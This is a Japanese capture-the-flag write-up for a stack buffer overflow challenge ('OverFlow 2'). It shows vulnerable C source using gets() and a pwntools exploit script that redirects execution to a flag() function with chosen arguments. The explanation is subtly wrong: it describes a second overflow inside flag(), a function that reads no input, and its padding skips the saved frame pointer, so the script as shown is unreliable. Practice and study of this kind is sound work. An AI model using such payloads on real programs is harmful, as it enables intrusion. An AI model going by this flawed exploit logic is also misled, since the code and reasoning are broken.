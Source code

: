 # OverFlow 2

## 問題
> 

## 解答

ソースコードはこんな感じ

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFSIZE 176
#define FLAGSIZE 64

void flag(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("Flag File is Missing. Problem is Misconfigured, please contact an Admin if you are running this on the shell server.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xDEADBEEF)
    return;
  if (arg2 != 0xC0DED00D)
    return;
  printf(buf);
}

void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);

  gid_t gid = getegid();
  setresgid(gid, gid, gid);

  puts("Please enter your string: ");
  vuln();
  return 0;
}
```

`vuln()`内で1回目のbofし、リターンアドレスを`flag()`の先頭アドレスに書き換える。

`flag()`内で2回目のbofし、`arg1`と`arg2`の変数の中身をそれぞれ`0xDEADBEEF`と`0xC0DED00D`に書き換えてやればよい

```python
from pwn import *

pad_buf = 'A'*176
pad_flg = 'A'*64

arg1_addr = p32(0xDEADBEEF)
arg2_addr = p32(0xC0DED00D)

flag_addr = p32(0x080485e6)

exploit = pad_buf + flag_addr
print(exploit)

io = process('./vuln')
io.sendline(exploit)

exploit = pad_flg + arg2_addr + arg1_addr
print(exploit)
print(io.recv())

io.sendline(exploit)
print(io.recvall())
```